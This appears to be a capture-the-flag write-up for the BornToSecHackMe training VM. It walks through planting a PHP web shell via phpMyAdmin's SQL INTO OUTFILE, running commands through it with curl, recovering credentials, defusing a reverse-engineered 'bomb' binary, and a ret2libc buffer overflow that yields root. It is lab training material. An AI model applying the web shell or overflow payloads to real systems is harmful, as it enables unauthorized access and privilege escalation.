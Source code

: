 ## phpmyadmin

Login with `root/Fg-'kKXBj87E:aJ$`

```
SELECT "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```
We injected our shell into a file `shell.php` under directory `/var/www/forum/templates_c` which we have write permission.

```
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=whoami'
www-data
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=find+/home+-user+www-data'
/home
/home/LOOKATME
/home/LOOKATME/password
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=cat+/home/LOOKATME/password'
lmezard:G!@M6f4Eatau{sF"
```

## FTP
Login with `lmezard:G!@M6f4Eatau{sF"`

```
$ ftp lmezard@$VMIP
Connected to 192.168.57.2.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.

$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

```
$ file fun
fun: POSIX tar archive (GNU)
$ tar -xf fun
```

```
$ printf 'Iheartpwnage' | shasum -a 256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

## ssh laurie

Login with `laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`.

```
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```
Here we must defuse the bomb to get all the password. The bomb has 6 phases for us to conquer.

### Phase 1. String compare

```
laurie@BornToSecHackMe:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble phase_1" bomb
[...]
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    esp,0x10
   0x08048b3a <+26>:	test   eax,eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    esp,ebp
[...]
```
First phase is pretty straightforward, the program calls `strings_not_equal` to compare our input with string literal `Public speaking is very easy.`.

### Phase 2. Factorial

```c
int n[6];

if (n[0] != 1)
	explode_bomb();
for (int i = 1; i != 6; ++i)
	if (n[i] != (i + 1) * n[i - 1])
		explode_bomb();
```
```
1! = 1
2! = 2 * 1 = 2
3! = 3 * 2 = 6
4! = 4 * 6 = 24
5! = 5 * 24 = 120
6! = 6 * 120 = 720
```
By reverse engineering the program, we knew that second phase is about factorial. What we need to do is input first 6 numbers of the factorial sequence starting from 1.

### Phase 3. Case combination

```c
if (sscanf(str, "%d %c %d", &a, &b, &c) < 3)
	explode_bomb();
switch (a) {
/* ... */
case 1:
	ref = 'b';
	if (c != 214) // 0x08048c02 <+106>: cmp DWORD PTR [ebp-0x4],0xd6
		explode_bomb();
	break;
```
For third phase, our input format must be `int char int`. According to the hint of README file, the matching character is `b`. Then case 1 is our input combination `1 b 214`.

### Phase 4. Fibonacci

```
int func4(int n)
{
	int ret;

	if (n <= 1)
		return 1;
	return func4(n - 2) + func4(n - 1);
}
```
Fourth phase calls `func4` to take our input number N as index then compares Nth fibonacci number with `55`. Since index starts from 0, we input index `9` to get 55.

### Phase 5. Magic cipher

### Phase 6. Sorting numbers

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```
Now we have the password for thor `Publicspeakingisveryeasy.126241207201b2149opekmq426315`. According to a [stackoverflow thread](https://stackoverflow.com/c/42network/questions/664), these is an error in the ISO file, the real password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`.

## ssh thor
Login with `thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135`

```
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

```
$ md5 -s SLASH
MD5 ("SLASH") = 646da671ca01bb5d84dbb5fb2238dc8e
```
The filename itself is a hint. We need to play with a Python lib called [turtle](https://docs.python.org/3/library/turtle.html). We got the string `SLASH`. The password is MD5 hash of `SLASH`.

## ssh zaz

Login with `zaz:646da671ca01bb5d84dbb5fb2238dc8e`.

```
zaz@BornToSecHackMe:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" exploit_me
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
=> 0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
```
`exploit_me` calls `strcpy` function to copy our input `argv[1]` directly into a buffer without checking its size. We can simply overwrite `eip`.


```
zaz@BornToSecHackMe:~$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) break *0x08048420
Breakpoint 1 at 0x8048420
(gdb) run 42
Starting program: /home/zaz/exploit_me 42

Breakpoint 1, 0x08048420 in main ()
(gdb) info registers eax
eax            0xbffff6d0	-1073744176
(gdb) info frame
Stack level 0, frame at 0xbffff760:
 eip = 0x8048420 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff758, args:
 Locals at 0xbffff758, Previous frame's sp is 0xbffff760
 Saved registers:
  ebp at 0xbffff758, eip at 0xbffff75c
(gdb) print 0xbffff75c - 0xbffff6d0
$1 = 140
```
We got offset 140 by calculate `eip - eax`.

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```
We found all the information to do a `ret2libc` attack.

```
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . pack("V", 0xb7e6b060) . pack("V", 0xb7e5ebe0) . pack("V", 0xb7f8cc58)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X��
# whoami
root
```
